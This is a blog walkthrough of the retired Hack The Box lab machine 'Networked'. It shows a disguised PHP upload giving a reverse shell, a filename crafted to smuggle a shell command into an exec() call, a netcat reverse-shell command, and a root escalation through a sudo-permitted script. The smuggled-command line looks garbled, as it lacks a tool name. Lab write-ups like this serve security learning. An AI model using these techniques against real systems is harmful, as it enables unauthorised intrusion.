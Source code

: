 ```yaml
---
layout: post
title: "HTB-Networked"
categories: HTB-Walkthrough
---
```



![networked](/assets/img/networked/networked1.png)


This box was 'Active' when I first compromised it, and in my rush to elevate my 'status' on HTB 
I was left with the nagging thought that I didn't fully understand why my privesc to root worked. I made a mental note to come back and have another look.

Nmap first:

```
nmap 10.10.10.146 -sV -Pn |tee -a net.txt
```

```

Nmap scan report for 10.10.10.146
Host is up (0.12s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
443/tcp closed https

```


<hr width="250" size="6">


Checking out the webserver on port 80 first.

There's a hint in the source:

![web](/assets/img/networked/net-web.png)



```
python3 /opt/dirsearch/dirsearch.py -u http://10.10.10.146/ -w /root/wordlists/SecLists/Discovery/Web-Content/common.txt -e .gif
```

![backup](/assets/img/networked/net-backup.png)


```
tar xvf backup.tar

index.php
lib.php
photos.php
upload.php

```

`http://10.10.10.146/upload.php`

![uploadphp](/assets/img/networked/net-uploadphp.png)


<h3>Exploit Upload Evil.php.gif</h3>

We should upload evil.php
Rename it evil.php.gif and preprend GIF89 to the top of the file.

Trigger it by browsing to:
```
http://10.10.10.146/photos.php
```

![photosphp](/assets/img/networked/net-photosphp.png)


```

listening on [any] 6969 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.146] 33466
Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 03:58:47 up  2:44,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ 

```

<hr width="250" size="6">



<h3>Privesc to Guly</h3>


There's an interesting php file in guly's home directory:



```

cat check_attack.php

<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>

```


This line is vulnerable to a code injection:
```
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

It will execute the removal of the file, but we can append a second command to the first which will be 
executed by `guly`.


Go to the /var/www/html/uploads/ folder.
guly's php script pulls from here, we can use `touch` to create a file and execute an additional command.


we cannot use the normal " nc 10.10.14.7 -e /bin/bash" command, so we need an alternative.


```
bash-4.2$ touch "test  && 10.10.14.7 9999 --sh-exec bash"
```

catch the shell on `nc -nlvp 9999`

![gulyshell](/assets/img/networked/net-gulyshell.png)


and get the user flag:

```

ls -la
total 28
drwxr-xr-x. 2 guly guly 159 Jul  9  2019 .
drwxr-xr-x. 3 root root  18 Jul  2  2019 ..
lrwxrwxrwx. 1 root root   9 Jul  2  2019 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly  18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly 193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly 231 Oct 30  2018 .bashrc
-r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly  33 Oct 30  2018 user.txt                                                                  
-rw-------  1 guly guly 639 Jul  9  2019 .viminfo                                                                  
cat user.txt                                                                                                       
52xxxxxxxxxxxxxxxxxxxxxxxxxxxxc5  

```


<h3>Privesc to Root</h3>


sudo su fails, as expected but we can list sudo commands for `guly` with `sudo -l`.

![sudol](/assets/img/networked/net-sudol.png)


lets have a look at the file:

```

cat changename.sh

#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
y
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

```

This looks a bit dangerous. A bit like a 'Do It Yourself' `sudo su` command that can generate the shell of any user.



test it out:

run the file....
```
sudo /usr/local/sbin/changename.sh
```

then enter `sudo su` for everything......
get root shell.....

```

[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
sudo su
sudo su
interface PROXY_METHOD:
sudo su
sudo su
interface BROWSER_ONLY:
sudo su
sudo su
interface BOOTPROTO:
sudo su
sudo su
[root@networked network-scripts]# cat /root/root.txt
cat /root/root.txt
0axxxxxxxxxxxxxxxxxxxxxxxxxxxx82
[root@networked network-scripts]#

```

I guess it was executing `su` as root, either from the initial `sudo` executing the script,
or one of the entries in the 'user input' parts but I didn't stick around long enough to reason why, 
I just grabbed the flag and ran!

<h3>Revisited</h3>

When the box was retired I had a look at some write-ups for the box; [0xdf's writeup](https://0xdf.gitlab.io/2019/11/16/htb-networked.html) investigates
this last phenomenom, and finds that the script's regex sanitizes the first bit of text but executes what comes after the space.

so it executed the `su` after the space....so I could have typed `foo su` for each entry and got the same result.

revisiting the box, I confirm this:

![foosu](/assets/img/networked/net-foosu.png)


:)




